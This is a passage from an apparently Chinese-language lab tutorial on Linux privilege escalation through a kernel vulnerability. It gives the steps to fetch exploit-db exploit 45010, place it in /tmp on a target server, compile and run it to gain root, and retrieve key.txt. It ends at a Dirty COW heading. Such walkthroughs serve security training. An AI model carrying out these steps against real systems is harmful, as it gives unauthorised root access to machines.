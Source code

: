 ![下载exp](./Linux提权本地配合内核漏洞/下载exp.png)

下载失败了，那就手动下载，再上传。

```http
https://www.exploit-db.com/download/45010 # 将exploits修改位download
```

将`45010.c`文件上传至服务器的`/tmp/`目录下，因为上传至别的目录可能没有权限。

然后对上传的exp进行编译。

```bash
gcc 45010.c -o 45010 # 进行编译
chmod +x 45010 # 赋予执权限
./45010 # 执行
id # 查看权限
```

![提权成功](./Linux提权本地配合内核漏洞/提权成功.png)

找到`key.txt`，`key.txt`在根目录下。

![找到key](./Linux提权本地配合内核漏洞/找到key.png)

至此提权成功。

## linux提权脏牛内核漏洞
